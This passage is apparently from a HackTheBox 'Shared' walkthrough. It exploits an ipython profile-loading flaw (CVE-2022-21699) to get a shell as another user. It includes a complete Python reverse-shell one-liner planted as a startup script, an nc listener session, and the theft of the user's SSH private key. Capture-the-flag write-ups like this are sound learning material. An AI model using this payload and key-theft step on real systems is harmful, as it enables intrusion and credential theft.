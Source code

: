 Let's upload `pspy64` to reveal what is done with /opt/scripts_review directory.

![pspy64 output](/assets/hackthebox/shared/pspy_output.png)

We can see that dan_smith user has a automated script, which executes ipython in /opt/scripts_review directory. With some googling I have found the [CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x).

This vulnerability allows us to run python scripts as dan_smith user. The idea is when ipython is executed, it tries to find a profile. But it starts with current working directory (CWD). So, if we make our own `profile_default` directory with a startup scripts, ipython will execute them.

Our exploit will look like this:

```bash
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' > /opt/scripts_review/profile_default/startup/foo.py
```

On my local machine I did set up a listener and waited for a minute.

```bash
┌──(kali㉿workstation)-[~/Documents/Shared]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.16.26] from (UNKNOWN) [10.10.11.172] 47264
dan_smith@shared:/opt/scripts_review$ cd ~
cd ~
dan_smith@shared:~$ cat .ssh/id_rsa
cat .ssh/id_rsa
...
```

Then, I just copied SSH private key to my local machine and logged in with SSH. And we got a user flag!

![Got user flag](/assets/hackthebox/shared/got_user.png)
